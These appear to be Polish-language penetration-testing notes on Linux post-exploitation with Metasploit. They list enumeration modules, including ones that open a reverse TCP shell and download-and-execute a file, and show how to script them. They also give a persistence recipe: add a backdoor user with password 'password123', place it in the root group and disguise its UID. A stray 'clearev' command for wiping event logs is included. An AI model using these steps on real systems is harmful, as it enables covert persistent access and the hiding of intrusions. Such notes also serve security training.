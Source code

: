 ```bash
clearev
```

# Linux Postexploitation

## msf>search post/linux/(gather)...

zrobic szybki skrypt .rc

1. setg session 1
1. use ...skrypt
1. dodac exploit po każdym skrypcie
   ```bash
   use post/linux/gather/enum_configs
   exploit
   use post/multi/gather/env
   exploit
   ...
   ```

|                                                                                                                       |                                        |
| --------------------------------------------------------------------------------------------------------------------- | -------------------------------------- |
| Enumerate system configuration                                                                                        | `post/linux/gather/enum_configs`       |
| enumerate operating system environment variabless                                                                     | `post/multi/gather/env`                |
| Enumerate network configuration                                                                                       | `post/linux/gather/enum_network`       |
| check protection systems                                                                                              | `post/linux/gather/enum_protections`   |
| gather system and user information                                                                                    | `post/linux/gather/enum_system`        |
| container check                                                                                                       | `post/linux/gather/checkcontainer`     |
| VM check                                                                                                              | `post/linux/gather/checkvm`            |
| Enumerate all users history of commands                                                                               | `post/linux/gather/enum_users_history` |
| create a Reverse TCP Shell on the target system using the system's own scripting environments installed on the target | `post/multi/manage/system_session`     |
| downloads and runs a file with bash                                                                                   | `post/linux/manage/download_exec`      |
| **...**                                                                                                               | **...**                                |

## Linux Persistence

```bash
# ręczne dodanie użytkownika jako backdoor
useradd -m ftp -s /bin/bash
# nadanie hasła utworzonemu użytkownikowi
passwd ftp
    >password123
# sprawdzenie w jakich grupach jest root
groups root
# dodanie użytkownika z ftp do grupy root
usermod -aG root ftp
# sprawdzenie w jakich grupach jest użytkownik ftp
grups ftp
# zmiana id użytkownika ftp aby nie rzucał się w oczy
usermod -u 15 ftp
# mozna zmienic jeszcze kolejność w pliku /etc/passwd
```
